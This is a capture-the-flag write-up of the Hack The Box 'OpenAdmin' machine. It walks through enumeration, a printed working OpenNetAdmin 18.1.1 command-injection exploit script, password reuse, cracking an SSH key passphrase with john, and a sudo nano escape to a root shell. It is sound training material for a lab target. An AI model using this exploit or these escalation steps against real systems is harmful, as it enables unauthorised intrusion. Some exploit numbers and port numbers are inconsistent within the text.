 # Hack The Box | OpenAdmin

![](images/status-card.png)

## Box Summary

This box is an easy Linux box on HackTheBox created by dmw0ng. We begin by finding a webserver running on port 80 that leads us to an opennetadmin instance logged in as guest. From there we are able exploit a remote code execution vulnerability to gain acess to the box as www-data. We find credentials to ssh in as Jimmy in a php file on the webserver. We pivot to Joanna by cracking an encrypted RSA key on the box that is used for ssh. Once we are logged in as Joanna, we find that she is able to run nano with root privileges. We exploit this to gain a root shell on the box.

## Enumeration

We run nmap on the box and find two open ports: 80/tcp, 22/tcp

```
nmap -sV -sC -oA nmap/openadmin 10.10.10.171
```

![](images/nmap-screenshot.jpg)

We take a look at port 80 in our browser by going to http://10.10.10.171 and we find that there is just an Ubuntu Apache2 Default Page running. 

We run gobuster to enumerate any directories that may give us more information about the webserver. We find that there is a /music directory that exists.

```bash
gobuster dir -u http://10.10.10.171/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![](images/gobuster.jpg)

When we visit the webpage we see a login and signup button.

![](images/music.jpg)

Navigating to the login section of the site, we are redirected to http://10.10.10.171/ona which is a service called  **opennetadmin**. We are logged into the service as a guest. We can see near the top of the page that the version running is v18.1.1

![](images/ona.jpg)

## Initial Foothold

Now that we know the version number, we want to search for publicly available exploits using searchsploit

```
searchsploit opennetadmin
```

![searchsploit.jpg](images/searchsploit.jpg)

We find an exploit for RCE, 46791.sh

We copy this to our current directory using the ```-m``` flag and rename the file for convenience.

```
searchsploit -m exploits/php/webapps/47691.sh
mv 47691.sh ona-rce.py
```



![copy-exploit.jpg](images/copy-exploit.jpg)



When looking at the contents of the file, we see that the exploit is a curl command that sends our commands to the server.

```bash
# Exploit Title: OpenNetAdmin 18.1.1 - Remote Code Execution
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

# Exploit Title: OpenNetAdmin v18.1.1 RCE
# Date: 2019-11-19
# Exploit Author: mattpascoe
# Vendor Homepage: http://opennetadmin.com/
# Software Link: https://github.com/opennetadmin/ona
# Version: v18.1.1
# Tested on: Linux

#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

The version we copied from searchsploit is encoded for windows, so we simply fix that by running ```dos2unix``` on the file.

```
dos2unix ona-rce.py
```

We run the exploit and find that we are able to execute code as ```www-data```

![](images/initial-foothold.jpg)

We now enumerate files on the box, looking for any sensitive information in any of the php files found on the webserver. We find ```local/config/database_settings.inc.php``` which contains a password.

![database-settings.jpg](images/database-settings.jpg)

We look for users on the box that have a login shell by looking at ```/etc/passwd``` and find two users on the box: jimmy and joanna.

![etc-passwd.jpg](images/etc-passwd.jpg)

Now that we have a couple users, we check for credential resuse and find that jimmy has reused a password. Because of this, we are able to ssh into the box as user jimmy the password 'n1nj4W4rri0r!'

![jimmy-ssh.jpg](images/jimmy-ssh.jpg)



## Pivoting to Joanna

Now that we are logged in as the user jimmy, we need to pivot to joanna since she holds the ```user.txt``` file we are after. We poke around the filesystem and find a directory ```/var/www/internal``` on the system. To see how this site is setup, we want to take a look at the apache2 configuration for this site ```/etc/apache2/sites-enabled/internal.conf```



![internal-conf.jpg](images/internal-conf.jpg)

We see that the site is running on port 52846. We navigate back to the ```/var/www/internal``` directory to take a look at the files, and we see that ```main.php``` executes code that outputs joanna's ssh rsa key.

```
vim /var/www/internal/main.php
```

![main-php.jpg](images/main-php.jpg)

Since we know the internal site is running on port 52486, we can try to curl this page to see if the code executes. We get the key.

![curl-joanna-key.jpg](images/curl-joanna-key.jpg)

Now that we have they key, we save it to our local machine as ```joanna_id_rsa```. Since the file is encrypted, we will need to crack the password. We use ```ssh2john``` to change the rsa key to a format that john the ripper will understand.

```
/usr/share/john/ssh2john.py joanna_id_rsa > joanna_id_rsa.john
```

Now we can pass this file to john, using the rockyou.txt wordlist and let it run with the following command:

```
john joanna_id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
```

After a moment, we can see that john cracks the key for us:

![crack-joanna.jpg](images/crack-joanna.jpg)

We need to lock down permissions on the key to 600 or ssh will yell at us for having a world-readable key:

```
chmod 600 joanna_id_rsa
```

Now we can login with ssh using joanna's key and 'bloodninjas' password.

```
ssh -i joanna_id_rsa joanna@10.10.10.171 
```

![joanna-ssh.jpg](images/joanna-ssh.jpg)

We have owned user!

![user-txt.PNG](images/user-txt.PNG)



## Privilege Escalation

Now we need to find a path to root. We begin by seeing what commands joanna can run as sudo with ```sudo -l``` and see that she can run ```/bin/nano /opt/priv``` as root.

![sudo-l.PNG](images/sudo-l.PNG)

Usually when a user can run a system binary as root, I like to check [GTFObins](https://gtfobins.github.io/) to see if it is exploitable. We see nano on the list and that we can use control commands to execute code as root and escape to a shell.

![Ref: https://gtfobins.github.io/nano](images/gtfo-nano.PNG)

We run ``` sudo /bin/nano /opt/priv``` to open the editor as root. From there, we hit CTRL+R for Read File, then CTRL+X to Execute Command. we type ```reset; sh 1>&0 2>&0``` to reset our shell, spawn ```sh``` and redirect standard out and standard error to the terminal. This gives a root shell.



![nano-root.jpg](images/nano-root.jpg)

Root Owned!

